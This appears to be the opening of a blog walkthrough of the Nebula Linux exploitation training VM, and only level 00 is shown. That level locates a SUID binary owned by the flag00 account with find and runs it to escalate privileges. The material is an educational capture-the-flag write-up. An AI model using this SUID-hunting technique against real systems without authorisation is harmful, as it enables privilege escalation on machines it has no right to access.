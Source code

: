 ```yaml
---
layout: post
title: Nebula Walkthrough
---
```


Nebula is a virtual machine from [Exploit Exercises][exploit-exercises] that
goes through basic local Linux exploitation. Quoting from the website,

> Nebula takes the participant through a variety of common (and less than common) weaknesses and vulnerabilities in Linux. It takes a look at
> * SUID files
> * Permissions
> * Race conditions
> * Shell meta-variables
> * $PATH weaknesses
> * Scripting language weaknesses
> * Binary compilation failures
>
> At the end of Nebula, the user will have a reasonably thorough understanding of local attacks against Linux systems, and a cursory look at some of the remote attacks that are possible.

Most of the levels are basic but there are a few levels that goes through
interesting techniques. While there are already plenty of writeups for Nebula,
this blog post will document my attempt.

The sha1sum of the ISO I am working with is e82f807be06100bf3e048f82e899fb1fecc24e3a.

{:toc}

# level 00

This level requires us to find a Set User ID program that will run as the
“flag00” account.

We can do this with the `find` utility.

```shell
level00@nebula:~$ find / -user flag00 -perm -4000 -print 2> /dev/null
/bin/.../flag00
/rofs/bin/.../flag00
```

Running the `/bin/.../flag00` binary escalates us to the flag00 user.

```shell
level00@nebula:~$ /bin/.../flag00
Congrats, now run getflag to get your flag!
flag00@nebula:~$ whoami
flag00
flag00@nebula:~$ id
uid=999(flag00) gid=1001(level00) groups=999(flag00),1001(level00)
flag00@nebula:~$ getflag
You have successfully executed getflag on a target account
```


[exploit-exercises]: https://exploit-exercises.com
[gnu-coreutils-env]: https://www.gnu.org/software/coreutils/manual/html_node/env-invocation.html
[pcre-modifier]: http://php.net/manual/en/reference.pcre.pattern.modifiers.php
[nebula-11-gist]: https://gist.github.com/graugans/88e6f54c862faec8b3d4bf5789ef0dd9#file-nebula-level11-md